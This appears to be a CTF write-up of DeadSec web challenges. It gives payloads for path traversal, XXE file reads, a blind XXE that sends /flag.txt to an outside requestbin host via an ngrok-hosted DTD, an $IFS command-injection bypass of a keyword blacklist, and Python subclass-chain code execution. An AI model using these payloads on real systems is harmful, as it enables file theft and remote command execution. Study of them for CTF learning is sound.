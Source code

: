 
# web
### crush

`https://b15c7ef41b05eb0eca3cea2b.deadsec.quest/hacking?hack=rename&lettername=202cb962ac59075b964b07152d234b70&rename=../../../../../../../../../flag.txt`
`https://b15c7ef41b05eb0eca3cea2b.deadsec.quest/readletter?lettername=202cb962ac59075b964b07152d234b70`

### XXE 1
#xxe
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230521180946.png)

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE input [
<!ELEMENT xmen ANY>
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag.txt">]>
<user><username>&xxe;</username></user>
```

### XXE2
#xxe 
与上一题一样,但是这次不会回显
盲xxe
*payload*
```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "https://84fb-111-18-39-51.ngrok-free.app/passwd.dtd">
%remote;%int;%send;
]>
```

passwd.dtd
```xml

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://http.requestbin.buuoj.cn/1qybk5u1?%file;'>">
%eval;
%exfiltrate;
```


### Bing
#命令注入

读取文件时会显示 You can read flag!!!,猜测是根据命令执行结果来waf
*payload*

`host=base64$IFS/fl[a]g.[t]xt`

###### 源码
```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect


app = Flask(__name__)

black_list = [" ", "cat" , "ls" , "flag.txt" , "*", "'" , "\"" , "@", "\t" , "\n", "fla"]

def check_input(cmd):
    for word in black_list:
        if word in cmd:
            return False
    return True
@app.route('/')
def index():
    return render_template('index.html')


@app.route('/flag', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'{host}'
        if check_input(cmd) == False:
             return render_template('ping_result.html', data='Oh no no, dont hack my website :)))')
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            if ("dead" in output.decode('utf-8')):
                return render_template('ping_result.html', data='You can read flag !!!')
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'error when executing command: {cmd}')

    return render_template('ping.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```


### FRSS
限制本地读取`hehe.txt`文件,且存在长度限制
*payload*
`url=0.0.0.0/hehe.txt`
### Trailblazer
看不懂捏

---
发现报错界面会显示一张图片,`/images/now`来显示当前时间,加上`==` 后回显`false`  又因为是python猜测为now类
*payload*

```shell
https://42729b7dae4ede716f4a9e87.deadsec.quest/images/now.__class__.mro()[1].__subclasses__()[352]('head${IFS}f*',shell=True,stdout=-1).communicate()[0][0:].strip
```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230522131601.png)


# reverse

# pwn

# crypto

# Misc
### crashPython
让一个python程序产生`segmentation fault`
gpt!
```python
import ctypes

class MyPointer(ctypes.Structure):
    _fields_ = [("ptr", ctypes.c_void_p)]

my_ptr = MyPointer()
my_ptr.ptr = 0b0

libc = ctypes.CDLL("libc.so.6")
libc.strcpy(my_ptr, "Hello,World!")
```

---
## *相关wp*




2023-05-20   21:18
